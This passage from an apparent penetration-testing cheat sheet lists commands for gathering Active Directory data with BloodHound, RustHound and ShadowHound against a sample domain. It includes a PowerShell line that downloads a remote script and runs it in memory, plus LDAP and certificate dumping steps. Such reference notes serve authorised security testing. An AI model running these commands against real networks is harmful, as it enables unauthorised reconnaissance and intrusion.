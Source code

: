 ```
$ cd ~/ws/enum/bloodhound/bloodhound.py/
$ bloodhound-python -c All,LoggedOn --zip -u snovvcrash -p 'Passw0rd!' -d megacorp.local -ns 192.168.1.11
$ proxychains4 -q bloodhound-python -c DCOnly --zip -d megacorp.local -k -u snovvcrash --auth-method kerberos -ns 192.168.1.11 -dc DC01.megacorp.local -gc DC01.megacorp.local --disable-autogc --dns-tcp --dns-timeout 10
```

Import with [bloodhound-import](https://github.com/fox-it/bloodhound-import):

```
$ bloodhound-import -du neo4j -dp 'Passw0rd!' 20190115133114*.json
```

##### RustHound

- [https://github.com/OPENCYBER-FR/RustHound](https://github.com/OPENCYBER-FR/RustHound)
- [https://github.com/g0h4n/RustHound-CE](https://github.com/g0h4n/RustHound-CE)

```
$ proxychains4 -q rusthound -d megacorp.local -k --dc-only --adcs [--fqdn-resolver] -z -f DC01.megacorp.local -i 192.168.1.11 -n 192.168.1.11 -P 636 --ldaps --dns-tcp -o bh/
```

##### ADWS

- [https://falconforce.nl/soaphound-tool-to-collect-active-directory-data-via-adws/](https://falconforce.nl/soaphound-tool-to-collect-active-directory-data-via-adws/)
- [https://github.com/FalconForceTeam/SOAPHound](https://github.com/FalconForceTeam/SOAPHound)
- [https://github.com/wh0amitz/SharpADWS](https://github.com/wh0amitz/SharpADWS)
- [https://blog.fndsec.net/2024/11/25/shadowhound/](https://blog.fndsec.net/2024/11/25/shadowhound/)
- [https://github.com/Friends-Security/ShadowHound](https://github.com/Friends-Security/ShadowHound)
- [https://github.com/logangoins/SoaPy](https://github.com/logangoins/SoaPy)

```
PS > IEX(New-Object Net.WebClient).DownloadString("https://github.com/Friends-Security/ShadowHound/raw/refs/heads/main/ShadowHound-ADM.ps1")
PS > ShadowHound-ADM -Server DC01.megacorp.local -SplitSearch -LetterSplitSearch -OutputFilePath "C:\ldap_output.txt"
PS > ShadowHound-ADM -Server DC01.megacorp.local -Certificates -OutputFilePath "C:\certs_output.txt"
# cd \ && lcd /tmp && get ldap_output.txt certs_output.txt ...
$ curl -sSL https://github.com/Friends-Security/ShadowHound/raw/refs/heads/main/split_output.py | sed 's/\.txt"/\.log"/g' > /tmp/split_output.py
$ mkdir /tmp/pyldapsearch_logs && cd /tmp/pyldapsearch_logs
$ python3 ../split_output.py -i ../ldap_output.txt -o pyldapsearch_logs -n 100
$ bofhound -i . -p All --parser ldapsearch && rm *.log
$ python3 ../split_output.py -i ../certs_output.txt -o pyldapsearch_logs -n 100
$ bofhound -i . -p All --parser ldapsearch && rm *.log
$ mv *.json ~/projects/megacorp/bh && cd ~/projects/megacorp/bh && rm -rf /tmp/pyldapsearch_logs
```

##### BOFHound
